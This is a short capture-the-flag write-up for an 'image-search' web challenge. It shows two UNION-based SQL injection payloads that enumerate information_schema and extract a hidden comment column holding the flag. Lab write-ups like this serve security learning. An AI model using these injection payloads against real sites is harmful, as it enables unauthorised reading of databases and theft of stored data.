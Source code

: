 # image-search

Page: `/index.php?page=searchimg`  
Difficulty: 5/10

## Description

A search field allows us to search for images on the site.

## Exploit

Good ol' SQL injection baby' *(read that with a texan accent)*.

We can use the `INFORMATION_SCHEMA` database to get metadata information about the tables:
```sql
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

We learn that the `list_images` table has a `comment` column, so we can use it to fetch the comments:
```sql
1 OR 1=1 UNION SELECT comment, NULL FROM list_images
```

And there we have the flag (in md5 format, to re-hash via sha256).

## Fun fact of the day

Its the same flag as [`challenge_user-agent`](../challenge_user-agent/). Had me going crazy. Crazy? I was-
